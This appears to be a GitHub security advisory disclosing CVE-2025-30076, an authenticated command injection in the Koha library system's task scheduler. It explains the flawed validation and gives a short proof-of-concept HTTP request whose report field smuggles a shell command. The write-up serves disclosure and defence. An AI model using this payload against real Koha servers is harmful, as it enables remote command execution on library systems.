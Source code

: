 # Koha ILS Command Injection Vulnerability

This repository documents a command injection vulnerability in Koha Integrated Library System affecting versions prior to 24.05.07, 24.11.02, 23.11.12, and 22.11.24.

## Vulnerability Details

- **CVE ID**: CVE-2025-30076
- **Vulnerability Type**: Command Injection
- **CWE**: CWE-78 (Improper Neutralisation of Special Elements used in an OS Command)
- **Affected Component**: tools/scheduler.pl
- **Affected Versions**: 
  - < 24.05.07
  - < 24.11.02 
  - < 23.11.12
  - < 22.11.24

## Description

Koha Integrated Library System contains an authenticated command injection vulnerability in the task scheduler functionality. The vulnerability exists in `tools/scheduler.pl` where user input from the `$report` parameter is directly interpolated into a shell command without proper sanitisation. An authenticated administrator with access to the scheduler functionality can execute arbitrary commands on the server.

## Technical Details

The vulnerability is present in lines 92-94 of `tools/scheduler.pl`:

```perl
my $command =
      "export KOHA_CONF=\"$CONFIG_NAME\"; "
    . "$base/cronjobs/runreport.pl $report --format=$format --to='$email'";
```

The `$report` variable comes from user input and undergoes flawed validation. The code converts the input to an integer to check if a report exists in the database, but then uses the original, unmodified string in the command. This allows an attacker to append shell metacharacters after a valid report ID to inject commands that will be executed on the server.

## Proof of Concept

The following HTTP request can be used to exploit the vulnerability:

```http
POST /cgi-bin/koha/tools/scheduler.pl HTTP/1.1
Host: [koha-instance]
Content-Type: application/x-www-form-urlencoded
Cookie: [authentication-cookies]

csrf_token=[token]&op=cud-add&starttime=16:33&startdate=&report=19012025```echo "RCE test" > /tmp/rce.txt```&format=text&email=test@example.com
```

This creates a file `/tmp/rce.txt` containing "RCE test" on the target server.

## Impact

This vulnerability allows an authenticated administrative user to:
- Execute arbitrary commands with the permissions of the web server user
- Access, modify, or delete library data
- Potentially gain further access to the host system

## Responsible Disclosure

This vulnerability was reported to the Koha project maintainers on the 19th of February 2025, and has been fixed in the following releases:
- 24.05.07
- 24.11.02
- 23.11.12
- 22.11.24

## Timeline

- **Discovery**: 19/02/2025
- **Reported**: 19/02/2025
- **Fixed**: 27/02/2025
- **Public disclosure**: 27/02/2025

## Credit

Discovered by Craig Fairman

## References

1. https://bugs.koha-community.org/bugzilla3/show_bug.cgi?id=39170)


